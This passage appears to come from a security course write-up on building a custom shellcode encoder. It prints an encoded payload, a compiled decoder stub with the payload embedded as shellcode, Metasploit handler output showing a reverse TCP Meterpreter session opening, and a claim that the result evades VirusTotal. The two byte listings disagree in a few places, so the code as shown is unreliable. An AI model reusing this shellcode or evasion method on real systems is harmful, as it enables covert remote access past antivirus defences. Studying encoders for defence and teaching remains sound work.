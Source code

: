 ```
[+] Encoded shell in NASM format: 0x44,0x75,0x1a,0x4e,0x2e,0x96,0xc5,0x75,0x61,0x4d,0xcc,0xce,0xa6,0x9f,0x8f,0xb4,0x55,0x3d,0xd2,0x04,0x28,0x73,0xbf,0xa8,0xe5,0xca,0xc0,0xdd,0x66,0xa2,0xb1,0xb1,0xb3,0xd9,0x99,0xf0,0x11,0x79,0xac,0xe1,0x23,0x73,0x7b,0x45,0x49,0x40,0xa1,0xc9,0x17,0x11,0xdf,0x5a,0x5f,0x12,0x9c,0x4b,0x05,0x52,0x32,0x8b,0xa9,0x0b,0xc1,0x94,0xdd,0x0a,0x52,0x0a,0x0a,0x0a,0xb7,0xb2,0xdd,0xb7,0xdd,0x07,0xce,0x36,0xe4,0x8e,0xf6,0x36,0x73,0x76,0x3b,0x45,0x62,0xae,0xf8,0x3c,0x24,0x24,0x9d,0x23,0x96,0x9c,0x15,0x9c,0x9c,0x8c,0xf7,0xfb,0x1c,0x36,0x14,0x38,0x88,0x34,0xdb,0xf9,0xcf,0x4a,0x4f,0x02,0xb2,0x72,0x29,0x62,0x0a,0xb2,0x88,0x3e,0x11,0x69,0x01,0x3b,0xf6,0x38,0x8b,0x37,0x8c,0xf4,0x4c,0x09,0x0c,0x35,0x8d,0xd4,0xca,0x37,0xa9,0xa9,0xa9,0xa9,0xa8,0x65,0x65,0x65,0x64,0xde,0x9b,0x0b,0x1b,0x56,0x9b,0x90,0x90,0xaa,0xaa
```

The shellcode is added to the decoder stub assembly file, compiled and linked:

```
slemire@slae:~/slae32/assignment4$ ../compile.sh stub_decoder
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Shellcode: \xeb\x57\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x5e\xbf\x90\x90\xaa\xaa\x83\xec\x7f\x83\xec\x7f\x83\xec\x7f\x83\xec\x7f\x8a\x5c\x16\x01\x8a\x7c\x16\x02\x8a\x4c\x16\x03\x8a\x6c\x16\x04\x32\x1c\x16\x32\x3c\x16\x32\x0c\x16\x32\x2c\x16\x88\x2c\x04\x88\x4c\x04\x01\x88\x7c\x04\x02\x88\x5c\x04\x03\x39\x7c\x16\x05\x74\x0a\x42\x42\x42\x42\x42\x83\xc0\x04\x75\xc5\xff\xe4\xe8\xa4\xff\xff\xff\x44\x75\x1a\x4e\x2e\x96\xc5\x75\x61\x4d\xcc\xce\xa6\x9f\x8f\xb4\x55\x3d\xd2\x04\x28\x73\xbf\xa8\xe5\xca\xc0\xdd\x66\xa2\xb1\xb1\xb3\xd9\x99\xf0\x11\x79\xac\xe1\x23\x73\x7b\x45\x49\x40\xa1\xc9\x17\x11\xdf\x5a\x5f\x12\x9c\x4b\x05\x52\x32\xa9\x0b\xc1\x94\xdd\x0a\x52\x0a\x0a\x0a\xb7\xb2\xdd\xb7\xdd\x07\xce\x36\xe4\x8e\xf6\x36\x73\x76\x3b\x45\x62\xae\xf8\x3c\x24\x24\x9d\x23\x96\x9c\x15\x9c\x9c\x8c\xf7\xfb\x1c\x36\x14\x38\x88\x34\xdb\xf9\xcf\x4a\x4f\x02\xb2\x72\x29\x62\x0a\xb2\x88\x3e\x11\x69\x01\x3b\xf6\x38\x8b\x37\x8c\xf4\x4c\x09\x0c\x35\x8d\xd4\xca\xa9\xa9\xa9\xa9\xa8\x65\x65\x65\x64\xde\x9b\x1b\x56\x9b\x90\x90\xaa\xaa
[+] Length: 250
[+] Done!
```

Veryfing that the shellcode still works...

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.23.10.40:4444 
[*] Sending stage (861480 bytes) to 172.23.10.37
[*] Meterpreter session 3 opened (127.0.0.1 -> 127.0.0.1) at 2018-11-22 08:16:09 -0500
```

The file is not picked up by Virus Total anymore:

![](/assets/images/custom-encoder/msfpayload_encoded.png)
